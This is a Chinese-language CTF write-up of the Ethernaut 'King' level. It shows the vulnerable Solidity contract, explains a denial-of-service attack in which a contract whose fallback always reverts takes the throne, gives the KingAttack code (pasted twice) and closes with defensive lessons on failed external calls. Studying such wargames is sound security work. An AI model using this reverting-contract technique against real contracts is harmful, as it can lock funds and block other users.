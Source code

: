 ```yaml
---
title: Ethernaut 闯关笔记 第10关 King
date: 2023-12-13 02:14:42
tags:
---
```


# 原始代码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {

    address king;
    uint public prize;
    address public owner;

    constructor() payable {
        owner = msg.sender;  
        king = msg.sender;
        prize = msg.value;
    }

    receive() external payable {
        require(msg.value >= prize || msg.sender == owner);
        payable(king).transfer(msg.value);
        king = msg.sender;
        prize = msg.value;
    }

    function _king() public view returns (address) {
        return king;
    }
}
```

# 攻击思路

乍一看没什么问题，不知道从何下手。

实际上，唯一的攻击面就是在 `payable(king).transfer(msg.value);` 这一行。

如果 `king` 是一个合约，那么这样的 `transfer` 就会调用合约的 `receive()` 函数，而 `receive()` 中可能包含恶意代码。

根据[0xSage 的这篇文章](https://medium.com/coinmonks/ethernaut-lvl-9-king-walkthrough-how-bad-contracts-can-abuse-withdrawals-db12754f359b)，向合约发送 ETH 的时候， `receive()` 中可能存在以下 3 个漏洞：

1. 被调用的合约没有 `payable` 的 `callback` 函数，不能接收 ETH ，这将会抛出一个错误；
2. 被调用的合约中 `fallback` 函数内存在恶意代码，故意终止合法的调用并抛出异常；
3. 被调用的合约中 `fallback` 函数内存在消耗大量 gas 的恶意代码，耗尽了调用者的 gas fee 后交易回滚。

综上，我们可以让一个合约成为 `king` ，并在这个合约的 `receive()` 函数中留下恶意代码，收到 `transfer` 的金额后直接回滚。

# 攻击代码

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.20;

contract King {

  address king;
  uint public prize;
  address public owner;

  constructor() payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address) {
    return king;
  }
}


contract KingAttack {

  	constructor(address payable contract_addr) payable {
      contract_addr.call{value:0.001 ether}("");
  	}
    fallback()payable external{
    	revert();
    }
}// SPDX-License-Identifier: MIT

pragma solidity ^0.8.20;

contract King {

    address king;
    uint public prize;
    address public owner;

    constructor() payable {
        owner = msg.sender;  
        king = msg.sender;
        prize = msg.value;
    }

    receive() external payable {
        require(msg.value >= prize || msg.sender == owner);
        payable(king).transfer(msg.value);
        king = msg.sender;
        prize = msg.value;
    }

    function _king() public view returns (address) {
        return king;
    }
}


contract KingAttack {

  	constructor(address payable contract_addr) payable {
        contract_addr.call{value:0.001 ether}("");
  	}
    fallback() payable external{
    	revert();
    }
}
```

# 安全启示

1. `tranfer` 和 `send` 是自带 gas 上限的，如果超出上限会 revert； `call` 可以自行设置 gas 上限（不设置就是正无穷），如果超出上限会返回 `false` ，而不是 revert。
2. 设计合约时，永远不能假定外部调用一定会成功，务必做好调用失败的判断及处理。

